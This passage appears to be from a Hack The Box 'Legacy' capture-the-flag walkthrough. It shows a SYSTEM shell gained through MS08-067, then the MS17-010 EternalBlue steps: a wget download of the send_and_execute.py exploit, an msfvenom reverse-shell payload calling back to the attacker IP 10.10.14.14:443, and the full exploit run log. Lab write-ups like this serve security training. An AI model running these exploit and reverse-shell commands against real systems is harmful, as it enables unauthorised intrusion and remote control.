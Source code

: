```shell
C:\WINDOWS\system32>\\10.10.14.14\cfx\whoami.exe
\\10.10.14.14\cfx\whoami.exe
NT AUTHORITY\SYSTEM
```

Hereby we confirm `MS08-67 exploit` gave us the shell as `NT AUTHORITY\SYSTEM`


## MS17-010

For MS17-010 exploit, we will use the [**code**](https://github.com/helviojunior/MS17-010) from **helviojunior** which is a fork from **worawit/MS17-010** repo.

We can download the exploit on our machine using the following command:

```shell
wget https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py
```
This exploit is pretty straight forward as it just requires an reverse shell payload file which it uploads & executes on the target machine.

### Generating payload with MSFvenom

```shell
cfx:  ~/Documents/htb/legacy/MS17-010
→ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o cfx.exe
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: cfx.exe
```

### Exploitation

We will start a `nc` listener on port 443 and execute the exploit:

```shell
cfx:  ~/Documents/htb/legacy/MS17-010
→ /usr/bin/python2 send_and_execute.py 10.10.10.4 cfx.exe
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x821c8770
SESSION: 0xe19ff010
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe19459f0
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1945a90
overwriting token UserAndGroups
Sending file QCNNC5.exe...
Opening SVCManager on 10.10.10.4.....
Creating service JPzI.....
Starting service JPzI.....
The NETBIOS connection with the remote host timed out.
```
